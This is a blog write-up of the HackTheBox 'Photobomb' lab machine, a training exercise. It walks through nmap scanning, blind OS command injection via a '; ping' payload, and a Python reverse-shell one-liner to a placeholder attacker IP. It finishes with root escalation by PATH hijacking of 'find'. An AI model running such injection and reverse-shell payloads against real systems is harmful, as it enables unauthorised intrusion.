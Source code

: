 ```yaml
---
date: 2023-02-10 17:32:03
layout: post
title: HackTheBox - Photobomb

description: 
image: /assets/img/htb/photobomb/info.png
optimized_image: /assets/img/htb/photobomb/info.png
category: blog
tags:
  - hackthebox
  - Photobomb
  - web vulnerabilites
  - htb
  - command injection
  - basics privilege escalation
---
```


# Machine Information
This machine is from easy level worth 20 points.

IP: `10.10.11.182`

# Scanning and Enumeration
First thing add ip to `/etc/hosts` file to allow any dns records.

```bash
nano /etc/hosts
```
Use `nano` to open this file and put ip.

![image](/assets/img/htb/photobomb/nano1.png)

Naturally, we will use `nmap` to identify open ports and collect some information about that machine.

```bash
nmap -A -T5 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 00:57 EST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (2).
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.11.182
Host is up (0.094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   92.39 ms 10.10.14.1
2   91.01 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.55 seconds
```

After scanning, I found ports 22 and 80 open, so I'll go to Website and dig deeper.

![image](/assets/img/htb/photobomb/website.png)

When you press on `Click here`, a window pops up asking you to enter your username and password.

I'm trying to bypass that popup with basic auth techniques like sql injection, default credentials (admin: admin), nosql, etc.. but all of them didn't work.

After that, I thought that I would see a source code, and I actually found the credentials.

![image](/assets/img/htb/photobomb/source.png)

Use this credentials `pH0t0:b0Mb!` to bypass that popup.

![image](/assets/img/htb/photobomb/pass.png)

After logging in, I only found a download function, and now I'm going to test it.

![image](/assets/img/htb/photobomb/download.png)

Capture the request by burp, Send to repeater and Play in parameters.

The first thing that came to my mind after seeing a request is to try to test the `OS Command Injection` vulnerability in all parameters to find out which parameter is at vulnerable.

The vulnerable parameter is the file type you specified with that payload `; ping -c 10 10.10.11.182` and the result was waiting for the response for about 10 millis to know that this parameter was vulnerable to a `blind OS Command Injection` vulnerability.

I've tried using a number of characters as command separators like `| , || , &` , but only those that have succeeded `;` .

![image](/assets/img/htb/photobomb/burp.png)

Use command injection to get reverse shell.

I tried several payloads but only the [python-reverse-shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) worked.

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Put that payload in that vulnerable parameter.

![image](/assets/img/htb/photobomb/payload.png)

Listen by netcat.

![image](/assets/img/htb/photobomb/nc.png)

Bingoo, I got the user flag.

![image](/assets/img/htb/photobomb/user.png)

# Privilege Escalation

Use `sudo -l` this option will print out the commands allowed (and forbidden) the user on the current host. 

![image](/assets/img/htb/photobomb/sudo.png)

This shows the current user can use this script `/opt/cleanup.sh` as root.

See the script to exploit it.

![image](/assets/img/htb/photobomb/script.png)

 The last line of the above script it is finding the filetype and it is executing it with root permission.
 
 To exploit it do that call the `find` binary using this relative path instead of the absolute path. By creating a malicious `find`, and modifying the path to include the current working directory, I should be able to abuse this misconfiguration, and escalate our privileges to root.
 
And that is known as a name [PATH-Variable-manipulation](https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469).

Add the current working directory to PATH.

![image](/assets/img/htb/photobomb/path.png)

Create the malicious `find` binary and make it executable.

![image](/assets/img/htb/photobomb/find.png)

Now, Run the script `/opt/cleanup.sh`. 

Great, I become root.

![image](/assets/img/htb/photobomb/who.png)

Bingoo, I got the root flag.

![image](/assets/img/htb/photobomb/root.png)

